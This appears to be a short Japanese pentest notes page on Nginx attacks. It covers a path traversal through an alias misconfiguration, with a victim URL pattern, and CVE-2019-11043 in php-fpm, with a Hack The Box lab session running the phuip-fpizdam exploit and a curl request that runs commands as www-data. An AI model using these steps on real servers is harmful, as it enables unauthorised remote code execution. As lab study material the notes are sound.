 # Niginx
----

## Miss Configuration
* locationの設定ミスによるPath Traversal
* [Breaking Parser Logic](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf)
  
  ```console
  location /i {
      alias /data/w3/images/;
  }
  ```
* http://victim.com/location_dir../path-to-fileでアクセス可能


## CVE-2019-11043(php-fpm)
* [ phuip-fpizdam](https://github.com/neex/phuip-fpizdam)
* Htb: static
  ```console
  ┌─[✗]─[rio@parrot]─[~/Htb/Static]
  └──╼ $~/go/bin/phuip-fpizdam http://127.0.0.1:80/index.php
  2021/09/16 13:13:49 Base status code is 200
  2021/09/16 13:14:18 Status code 502 for qsl=1765, adding as a candidate
  2021/09/16 13:14:37 The target is probably vulnerable. Possible QSLs: [1755 1760 1765]
  2021/09/16 13:16:31 Attack params found: --qsl 1755 --pisos 200 --skip-detect
  2021/09/16 13:16:31 Trying to set "session.auto_start=0"...
  2021/09/16 13:16:57 Detect() returned attack params: --qsl 1755 --pisos 200 --skip-detect <-- REMEMBER THIS
  2021/09/16 13:16:57 Performing attack using php.ini settings...
  2021/09/16 13:17:20 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
  2021/09/16 13:17:20 Trying to cleanup /tmp/a...
  2021/09/16 13:17:23 Done!
  ┌─[rio@parrot]─[~/Htb/Static]
  └──╼ $curl "127.0.0.1/index.php?a=id"
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  
  Warning: Cannot modify header information - headers already sent by (output started at /tmp/a:1) in /var/www/html/index.php on line 2
  batch mode: /usr/bin/ersatool create|print|revoke CN
  ```

  